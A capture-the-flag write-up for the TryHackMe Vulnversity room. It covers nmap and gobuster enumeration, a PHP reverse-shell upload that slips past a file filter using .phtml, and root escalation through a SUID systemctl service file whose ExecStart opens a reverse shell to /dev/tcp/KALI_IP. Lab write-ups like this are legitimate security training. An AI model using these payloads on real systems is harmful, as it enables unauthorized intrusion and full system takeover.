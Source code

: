# Vulnversity
 Challenge link: https://tryhackme.com/room/vulnversity 
## IP
10.10.198.229

## Scans
### NMAP
#### Command used:
<code>$ nmap -sC -sV -Pn 10.10.198.229</code>
#### Results
"""
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 13:07 EDT
Nmap scan report for 10.10.198.229
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-04-22T13:08:09-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-time: 
|   date: 2022-04-22T17:08:10
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
"""
### GoBuster
#### Command used:
<code>$ gobuster dir -u http://10.10.198.229:3333/ -w /usr/share/wordlists/dirb/common.txt </code>
#### Results
"""
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.229:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/22 13:43:20 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.198.229:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.198.229:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.198.229:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                      
<b>/internal             (Status: 301) [Size: 324] [--> http://10.10.198.229:3333/internal/]</b>
/js                   (Status: 301) [Size: 318] [--> http://10.10.198.229:3333/js/]      
/server-status        (Status: 403) [Size: 303]                                          
                                                                                         
===============================================================
2022/04/22 13:44:28 Finished
===============================================================
"""
## Ports Open
"""
21
22
139
445
3128
3333
"""

## Exploitation
### BurpSuite 
__ found a post request at internal/ __
"""
Multiple file types seem to be blocked.
Only '.phtml' seems to go through.
"""
#### Triggering payload
"""
After a succesful upload of a php reverse shell masked with the required file type (aka .phtml) , we need to trigger the payload somehow.
we can either use dirb / go buster in  recursive modes or manually poke around discovering <u>http://ip:3333/internal/uploads/payload_name.phtml</u>
<b> Voila! a reverse shell on our listeners!</b>

On enumerating the directories we can see the username is located at <code>/home/</code> which is the expected location. checking the dir we can see "user.txt" which contains the flag.
"""

#### SUID perm. check
##### Command used
<code>find / -type f -perm -4000 2>/dev/null</code>
##### Results
"""
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
"""
### LinPeas
#### Intresting Observations
"""  
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034    # Tough will not use this as this was not the targeted way.
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled                   
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Jul 31  2019 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf     

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid           
---sniped---   
<b>-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/systemctl</b>

"""

 
### Final Stretch (exploit Systemctl)
#### Payload
"""
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/9091 0>&1'

[Install]
WantedBy=multi-user.target
"""
"""
After the files to a location that's writable (say /tmp) save it by a name say name.service
then ran:
##### On target
<code>/bin/systemctl enable name.service</code>
##### On Kali
<code>nc -nlvp 9091</code>
##### On target
<code>/bin/systemctl start name</code>

<b>Voila! we have root's flag!</b>
"""

